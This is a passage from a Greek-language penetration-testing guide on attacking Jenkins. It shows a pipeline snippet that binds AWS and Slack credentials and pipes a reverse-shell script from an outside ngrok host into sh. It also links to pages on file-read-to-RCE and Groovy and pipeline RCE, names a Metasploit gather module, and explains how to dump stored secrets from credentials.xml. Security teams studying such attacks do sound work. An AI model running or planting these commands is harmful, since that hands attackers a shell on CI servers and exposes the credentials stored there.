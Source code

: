 ```bash
withCredentials([usernamePassword(credentialsId: 'amazon', usernameVariable: 'USERNAME', passwordVariable: 'PASSWORD'),
string(credentialsId: 'slack-url',variable: 'SLACK_URL'),]) {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh PASS
'''
}
}
}

post {
always {
cleanWs()
}
}
}
```
## Αυθαίρετη Ανάγνωση Αρχείου σε RCE

{{#ref}}
jenkins-arbitrary-file-read-to-rce-via-remember-me.md
{{#endref}}

## RCE

{{#ref}}
jenkins-rce-with-groovy-script.md
{{#endref}}

{{#ref}}
jenkins-rce-creating-modifying-project.md
{{#endref}}

{{#ref}}
jenkins-rce-creating-modifying-pipeline.md
{{#endref}}

## Μετά την Εκμετάλλευση

### Metasploit
```
msf> post/multi/gather/jenkins_gather
```
### Jenkins Secrets

Μπορείτε να καταγράψετε τα μυστικά προσβάλλοντας το `/credentials/` αν έχετε αρκετές άδειες. Σημειώστε ότι αυτό θα καταγράψει μόνο τα μυστικά μέσα στο αρχείο `credentials.xml`, αλλά **τα αρχεία διαμόρφωσης κατασκευής** μπορεί επίσης να έχουν **περισσότερα μυστικά**.

Αν μπορείτε να **δείτε τη διαμόρφωση κάθε έργου**, μπορείτε επίσης να δείτε εκεί τα **ονόματα των μυστικών (credentials)** που χρησιμοποιούνται για την πρόσβαση στο αποθετήριο και **άλλα μυστικά του έργου**.

